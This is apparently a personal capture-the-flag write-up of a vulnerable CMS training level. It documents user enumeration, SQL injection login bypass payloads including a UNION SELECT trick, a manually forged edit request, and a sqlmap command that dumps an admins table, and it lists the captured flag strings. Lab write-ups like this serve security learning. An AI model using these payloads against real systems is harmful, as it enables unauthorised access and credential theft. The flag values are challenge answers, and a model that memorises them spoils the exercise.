 **Analysis:** 

Has an updated message about fixing security flaws with the last CMS room.

_This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now._

- Need to be admin to edit pages.
- Can not access anything without getting into the login page.
- Doesn't seem to be anything in the source code.
- Looks like it has the same floor as one of the earlier rooms, it verifies if a user exists or not, and returns a message letting you know if the user exists in the system or not which is information disclosure. 

![[Pasted image 20240906115934.png]]

- I'm not completely sure, but i think i found the username `thomasine`. After trying it it gives me a security risk error, but i think that could be because the password is not enumerated yet, so i'll try that now with the new username. 

`Unable to connect to backend store.`

Finally found a username that works. After a while i tried an SQL injection attack which is what worked, now i can just enumerate the password and finally get into the app. 

Payload:
`' or 1 --'`

I find the password using owaspzap:

![[Pasted image 20240906134315.png]]

**Username:** ' or 1 --'
**Password:** leandro

Flag1:

`^FLAG^365711bf239e3112a9a624e33f8067d53584347a16ebb04f91ed917a25ac87e2$FLAG$`

- While trying to edit the page the app will redirect back to the first flag when i enter the SQL user/pass.
- I try manually editing the request in burp to try and access the edit page.

**Vulnerable request:**

`POST /page/edit/1 HTTP/2`

**Flag2:**

`^FLAG^c71c1119b382b4f980d44f784dd65032b611f7320520e70edce1470e35dea11e$FLAG$`

![[Pasted image 20240907045651.png]]

**Bypass login:**

User:
```php
' UNION SELECT '123' AS password#
```

`SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#`

Pass:
```php
123
```

**Flag3:**

`^FLAG^ee822791773d6ecd8864420c02e2d9801ee0cc813911828960392116c49f93d7$FLAG$`


![[Pasted image 20240907054315.png]]

---

**Completed:** _05:43 2024-09-07_

_Extra_
Finding the username, for the password we found earlier, with sqlmap.

```php
sqlmap -r req.txt -D level2 -T admins --dump
```

```php
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | leandro  | patria   |
+----+----------+----------+
```



